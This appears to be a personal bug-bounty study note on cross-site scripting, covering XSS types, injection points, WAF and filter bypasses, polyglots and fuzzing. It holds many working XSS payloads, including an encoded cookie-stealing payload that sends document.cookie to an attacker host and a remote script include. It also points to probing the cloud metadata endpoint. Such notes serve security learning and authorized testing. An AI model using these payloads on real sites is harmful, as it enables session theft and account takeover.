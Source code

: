 > [!NOTE] note that
> - no clear cut to pass WAF, figuring out what works and doesn’t [Awesome-WAF](https://github.com/0xInfection/Awesome-WAF),[XSS-Filter-Bypass-Cheat-Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet) [[Bypass WAF]]
> - finding XSS mean that this site’s security is bad so we can find more [meta-data](http://169.254.169.254/latest/meta-data) [[SSRF]]
> - if u can't then try [[HTML injection]]
### Types and pref

#### Reflected XSS
> Reflected XSS vulnerabilities happen when user input is returned to the user without being stored in a database. The application takes in user input, processes it server-side, and immediately returns it to the user
#### Stored XSS
> when user input is stored on a server and retrieved unsafely
##### blind XSS 
> Blind XSS vulnerabilities are stored XSS vulnerabilities whose malicious input is stored by the server and executed in another part of the application or in another application that you cannot see. These XSS flaws are harder to detect, since you can’t find them by looking for reflected input Often, blind XSS can be used to attack administrators.
 
> use payload from [xsshunter](https://xsshunter.com/features) ,or [knoxss.me](http://knoxss.me/), monitor logs and wait :)
#### DOM XSS
> DOM-based XSS is similar to reflected XSS, except that in DOM-based XSS, the user input never leaves the user’s browser. In DOM-based XSS, the application takes in user input, processes it on the victim’s browser, and then returns it to the user.
> 	 - JavaScript libraries like **jQuery** are prone to DOM-based XSS
> 	 - when ever u see **URL fragments**
##### Self-XSS
> Self-XSS attacks require victims to input a malicious payload themselves. To perform these, attackers must trick users into doing much more than simply viewing a page or browsing to a particular URL.
> 	In bug bounties, self-XSS bugs are not usually accepted as valid submissions because they require social engineering
> 	to get high impact use it with other vuln: [uber-turning-self-xss-into-good-xss](https://whitton.io/articles/uber-turning-self-xss-into-good-xss/)

### where to find
1. test every parameter that reflected in the page, even drop down values, and multi select
2. inject 'devMRT' then use [Ctrl+f] to find where string get reflected
3. >'<"//:=;!--. Take note of which ones the application escapes and which get rendered directly
4. for DOM:
	> figure out where user input (source such `document.*`, and `location.*`) is being used in the application. If the source is being paced to a dangerous sink you could have XSS.
1. common endpoints:
	1. forms, search boxes, and name and username fields in sign-ups.
	2. "/upload_profile_pic?url=IMAGE_URL" => `data:text/html,<scrip...`
2. common parameters: 
	1. "q", "s", "search", "id", "lang", "keyword", "query", "page", "keywords", "year", "view", "email", "type", "name", "p", "month", "image", "list_type", "url", "terms", "categoryid", "key", "l", "begindate", "enddate"
> after send the payload be sure to view the page source and confirm whether your payloads are being rendered in HTML or JavaScript tags.

> for stored XSS make sure u visit each location your payload rendered at 

> When sites sanitize user input by modifying it instead of encoding or escaping values, you should continue testing the site’s server-side logic. start asking "what if" and let the site answer

> try to find alternative input method for XSS payload like JSON
> remember to use iframe with `src=javascript:alert(document.domain)`
### Process for testing for XSS & filtering:
1. find if there are any allowed tags <img>, `<h1>` ,`<table>`, `<u>`. 
2. reflected in encoding format then try:  `&it;` or `%3C`,or double encoding `%253C` and `%26lt;` [more encoding](https://d3adend.org/xss/ghettoBypass)
3. try to include script from out source: `<script src=//mysite.com?c=`
4. or add some encoded chars: `<%00iframe`, `on%0derror` `<%00h2` , `%0d`, `%0a`, `%09`
5. `string.fromCharCode()` ex
	```js
	<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT> => "http://attacker_server_ip/?c="
   ```
   use on of following to get ascii code for your payload:
   1. https://js.do/
   2.  js code
	```js
	<script>
		function ascii(c){ return c.charCodeAt(); }
		encoded = "INPUT_STRING".split("").map(ascii);
		document.write(encoded);
	</script>
	```
[OWASP’s XSS filter evasion cheat sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
###### stop if: not matter what you try you always see `&lt;script&gt;` or `%3Cscript%3E`

### payloads
`</script/x>`, `<ScRipt>` 
no space⇒ `<svg/onload=alert()>` 
`<iframe src="<http://colabrator>">`,`<iframe src=javascript:alert(1)>`
`"><img img src=x onerror=prompt(1);>`
`<a onmouseover"alert(1)">test</a>`
<svg/onload=prompt{`document.cookie`}> 
URLs: 
```urls
javascript%0a:\\u0061lert(origin)
javascript%0a:alert(origin)
java%0d%0ascript%0d%0a:alert(0)
j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0`
java%09scrip%07t:prompt`0` jjavascriptajavascriptvjavascriptajavascriptsjavascriptcjavascriptrjavascriptijavascript pjavascriptt:confirm`0`
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+"
data:text/html,<script>alert(0)</script>
```
<dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x>`
```html
<inpuT autofocus oNFocus="setTimeout(function){/*\*/top['al'+\u0065'+'rt'](1)/*\*/}，5000);"></inpuT%3E；
```
`<Img+Src=javascript:alert(1)+OnError=location=src>`
###### [portswigger cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet/)
###### XSS polyglot
> a type of XSS payload that executes in multiple contexts. it will execute XSS regardless of whether it is inserted into an `<img>` `<script>` , `<a>` or `<p>`
> https://polyglot.innerht.ml/: 
```js
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert())//%0D%0A%0d%0a//<stYle/<tiTle/</teXtarEa/</ScRiPt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
### fuzzing
> automatically test a site for already-known XSS vectors is through fuzzing
``` js
GET /search?q=FUZZ 
Host: example.com 

POST /send_email 
Host: example.com
..........
user_id=abc&title=FUZZ&body=FUZZ
```


> [!NOTE] Title
> In some situations, the URL won’t match the origin. For example, about:blank and javascript: schemes inherit the origin of the document opening them. The about:blank context accesses information from or interacts with the browser, whereas javascript: executes JavaScript. The URL doesn’t provide information about its origin, so browsers handle these two contexts differently. When you find an XSS vulnerability, using alert(document.domain) in your proof of concept is helpful: it confirms the origin where the XSS executes, especially when the URL shown in the browser is different from the origin the XSS executes against. This is exactly what happens when a website opens a javascript: URL. If www..com opened a javascript:alert(document.domain) URL, the browser address would show javascript:alert(document.domain). But the alert box would show www..com because the alert inherits the origin of the previous document.

more at: file:///F:/Courses/02-cyber%20security/4-%20offensive%20security/PDFs/Offensive%20Security%20AWAE%20WEB-300%20OSWE.pdf page:344

### XSS Auditors
Browsers, try to prevent reflect and stored XSS by introducing *XSS Auditors*, here's how to bypass 
- [Browser's-XSS-Filter-Bypass-Cheat-Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)
- https://blog.innerht.ml/the-misunderstood-x-xss-protection/




file:///F:/Courses/02-cyber%20security/6-%20bug%20bounty/BugBountyBooks/Real-World%20Bug%20Hunting%20-%20A%20Field%20Guide%20to%20Web%20Hacking%20by%20Peter%20Yaworski.pdf => 108 
### tools
XSStrick  , Axiom

#### fresh writeups
skii.dev/rook-to-xss/ 